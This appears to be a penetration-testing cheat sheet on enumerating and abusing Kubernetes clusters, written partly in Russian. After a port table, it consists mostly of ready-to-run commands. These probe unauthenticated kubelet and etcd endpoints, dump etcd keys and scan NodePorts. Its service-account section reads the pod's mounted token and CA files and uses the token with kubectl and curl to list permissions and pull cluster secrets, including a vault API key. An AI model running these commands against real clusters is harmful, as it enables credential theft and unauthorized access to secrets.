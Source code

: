 ```yaml
---
description: Kubernetes Enum/Abuse
---
```


# Kuber

<figure><img src="../../../.gitbook/assets/kuber.jpg" alt=""><figcaption><p>Kubernetes Privilege Escalation</p></figcaption></figure>



## Ports

| Port            | Process        | Description                                                            |
| --------------- | -------------- | ---------------------------------------------------------------------- |
| 443/TCP         | kube-apiserver | Kubernetes API port                                                    |
| 2379/TCP        | etcd           |                                                                        |
| 6666/TCP        | etcd           | etcd                                                                   |
| 4194/TCP        | cAdvisor       | Container metrics                                                      |
| 6443/TCP        | kube-apiserver | Kubernetes API port                                                    |
| 8443/TCP        | kube-apiserver | Minikube API port                                                      |
| 8080/TCP        | kube-apiserver | Insecure API port                                                      |
| 10250/TCP       | kubelet        | HTTPS API which allows full mode access                                |
| 10255/TCP       | kubelet        | Unauthenticated read-only HTTP port: pods, running pods and node state |
| 10256/TCP       | kube-proxy     | Kube Proxy health check server                                         |
| 9099/TCP        | calico-felix   | Health check server for Calico                                         |
| 6782-4/TCP      | weave          | Metrics and endpoints                                                  |
| 30000-32767/TCP | NodePort       | Proxy to the services                                                  |
| 44134/TCP       | Tiller         | Helm service listening                                                 |



## Kubelet Api

```
curl -k https://<IP address>:10250/metrics
curl -k https://<IP address>:10250/pods
```

If the response is `Unauthorized` then it requires authentication.

Custom client for kubelet communication - [https://github.com/cyberark/kubeletctl](https://github.com/cyberark/kubeletctl)



**kubelet (Read only)**

```
curl -k https://<IP Address>:10255
http://<external-IP>:10255/pods
```



## etcd API <a href="#etcd-api" id="etcd-api"></a>

```
curl -k https://<IP address>:2379
curl -k https://<IP address>:2379/version
etcdctl --endpoints=http://<MASTER-IP>:2379 get / --prefix --keys-only
```



## NodePort <a href="#nodeport" id="nodeport"></a>

When a port is exposed in all the nodes via a **NodePort**, the same port is opened in all the nodes proxifying the traffic into the declared **Service**. By default this port will be in in the **range 30000-32767**. So new unchecked services might be accessible through those ports.

```
sudo nmap -sS -p 30000-32767 <IP>
```



## Dnscan

utility for enum services inside cluster network by PTR record

[https://gist.github.com/nirohfeld/c596898673ead369cb8992d97a1c764e](https://gist.github.com/nirohfeld/c596898673ead369cb8992d97a1c764e)

build:

```bash
go build -ldflags "-linkmode external -extldflags '-static -s -w'" -o myapp main.go
```

## Service Account

Check  SA rights&#x20;

```bash
kubectl auth can-i create --list
```

По умолчанию Kubernetes хранит все токены и информацию об учетных записях служб в месте по умолчанию. Перейдите туда, чтобы найти полезную информацию.

```
cd /var/run/secrets/kubernetes.io/serviceaccount/
```

* Теперь мы можем использовать эту информацию для запроса и взаимодействия со службой API Kubernetes с доступными разрешениями и привилегиями.
* Чтобы указать имя хоста внутреннего API-сервера, мы можем экспортировать его из переменных среды.

```
export APISERVER=https://${KUBERNETES_SERVICE_HOST}
```

* Чтобы установить путь к `ServiceAccount`токену

```
export SERVICEACCOUNT=/var/run/secrets/kubernetes.io/serviceaccount
```

* Чтобы установить значение пространства имен

```
export NAMESPACE=$(cat ${SERVICEACCOUNT}/namespace)
```

* Чтобы прочитать `ServiceAccount`токен на предъявителя

```
export TOKEN=$(cat ${SERVICEACCOUNT}/token)
```

* Чтобы указать `ca.crt`путь, чтобы мы могли использовать его при запросе `curl`запросов

```
export CACERT=${SERVICEACCOUNT}/ca.crt
```

* Теперь мы можем изучить API Kubernetes с помощью токена и построенных запросов.

**kubectl**

```bash
kubectl --token=${TOKEN} --server=https://10.233.0.1:443 --insecure-skip-tls-verify=true --namespace=namespace auth can-i --list
```

```
curl --cacert ${CACERT} --header "Authorization: Bearer ${TOKEN}" -X GET ${APISERVER}/api
```

* Чтобы запросить доступные секреты в `default`пространстве имен, выполните следующую команду

```
curl --cacert ${CACERT} --header "Authorization: Bearer ${TOKEN}" -X GET ${APISERVER}/api/v1/secrets
```

* Чтобы запросить секреты, специфичные для пространства имен

```
curl --cacert ${CACERT} --header "Authorization: Bearer ${TOKEN}" -X GET ${APISERVER}/api/v1/namespaces/${NAMESPACE}/secrets
```

* Получите `k8svaulapikey`пользу от секретов

```
curl --cacert ${CACERT} --header "Authorization: Bearer ${TOKEN}" -X GET ${APISERVER}/api/v1/namespaces/${NAMESPACE}/secrets | grep k8svaultapikey 
```
